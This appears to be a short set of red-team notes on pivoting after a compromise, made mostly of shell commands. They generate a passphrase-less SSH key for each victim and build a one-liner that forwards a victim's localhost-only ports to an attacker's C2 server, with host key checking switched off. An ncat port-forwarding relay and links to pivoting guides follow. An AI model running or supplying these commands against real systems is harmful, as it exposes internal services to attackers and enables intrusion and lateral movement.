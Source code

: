 ```bash 
#generate per victim ssh key and allow it to connect 
#chroot of some form recommended.

# https://unix.stackexchange.com/questions/69314/automated-ssh-keygen-without-passphrase-how

ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
sudo mv /tmp/sshkey.pub ~/.ssh/authorized_keys 
# mv /tmp/sshkey /var/www/html sshkey < if we want to script transferring to victim>
```

```bash
# one liner to output SSH command that forwards victim's ports to attacker via ssh if they're only listening on 127.0.0.1

netstat -antpu 2&>/dev/null |grep "127.0.0.1"| awk '{print $4}'|cut -d ":" -f2>listening_ports; sed 's/[[:digit:]]\+/-R 0:localhost:&/' listening_ports| tr '\n' ' '  > ssh_cmd ;sed  's/^.*$/ssh -o "StrictHostKeyChecking no" -o "UserKnownHostsFile \/dev\/null" -i \/tmp\/key &$C2/g' ssh_cmd > ssh_cmd.sh;cat ssh_cmd.sh

# sample output 
# ssh -o "StrictHostKeyChecking no" -o "UserKnownHostsFile /# dev/null" -i /tmp/key -R 0:localhost:22 -R 0:localhost:500 # -R 0:localhost:4500 $C2%  

```


achieving port forwarding with other tools
``` bash
#ncat 
ncat -l localhost 8080 --sh-exec "ncat example.org 80"

#socat etc, to be completed
# drop socat on victim box, then can use that

https://unix.stackexchange.com/questions/293304/using-netcat-for-port-forwarding
```

other pivoting/portforwarding resources

https://artkond.com/2017/03/23/pivoting-guide/#socat


http://bechtsoudis.com/archive/2012/06/08/using-ssh-socks-proxies-with-msf-reverse-tcp-payloads/index.html
